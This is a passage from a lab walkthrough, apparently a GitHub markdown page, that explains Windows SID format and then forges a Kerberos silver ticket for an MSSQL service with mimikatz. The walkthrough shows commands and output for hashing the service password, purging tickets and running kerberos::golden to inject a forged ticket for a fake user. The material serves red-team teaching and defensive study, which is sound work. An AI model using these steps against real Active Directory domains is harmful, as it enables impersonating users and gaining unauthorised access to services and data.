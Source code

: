 Security Identifier or SID format: `S-R-I-S`
- `S` - A literal `S` to identify the string as a SID
- `R` - Revision level, usually set to `1`
- `I` - Identifier-authority value, often `5` within AD
- `S` - Subauthority values:
  - Domain's numeric identifier, e.g. `21-1470288461-3401294743-676794760`
  - Relative identifier or RID representing the specific object in the domain, e.g. `1105`

```console
C:\Users\mike>whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
lab\mike  S-1-5-21-1470288461-3401294743-676794760-1105
```

### 3.2.2. Generate hash value for service account password
```console
mimikatz # kerberos::hash /password:P@ssw0rd
        * rc4_hmac_nt       e19ccf75ee54e06b06a5907af13cef42
        * aes128_hmac       f67365e0a00838aff75e6ca33f3c2be2
        * aes256_hmac       9e0de99003a18068f2e2186cd1162e9b6398f7b873854ccf16040ce16aa06d26
        * des_cbc_md5       76fdfece25e3da54
```

### 3.2.3. Purge existing kerberos tickkets
- ☝️ **Note**: it is important to run `kerberos::purge` even if `klist` show zero cached tickets
```console
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
```

### 3.2.4. Generate KRB_TGS ticket
- ☝️ **Note**: The service identifies the user using the SID, the user name can be anything like `nonexistentuser`

```console
mimikatz # kerberos::golden /user:nonexistentuser /domain:LAB.VX /sid:S-1-5-21-1470288461-3401294743-676794760 /id:1105 /target:svr.lab.vx:1433 /service:MSSQLSvc /rc4:e19ccf75ee54e06b06a5907af13cef42 /ptt
User      : nonexistentuser
Domain    : LAB.VX (LAB)
SID       : S-1-5-21-1470288461-3401294743-676794760
User Id   : 1105
Groups Id : *513 512 520 518 519
ServiceKey: e19ccf75ee54e06b06a5907af13cef42 - rc4_hmac_nt
Service   : MSSQLSvc
Target    : svr.lab.vx:1433
Lifetime  : 18/4/2022 9:15:16 am ; 15/4/2032 9:15:16 am ; 15/4/2032 9:15:16 am
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'nonexistentuser @ LAB.VX' successfully submitted for current session
```

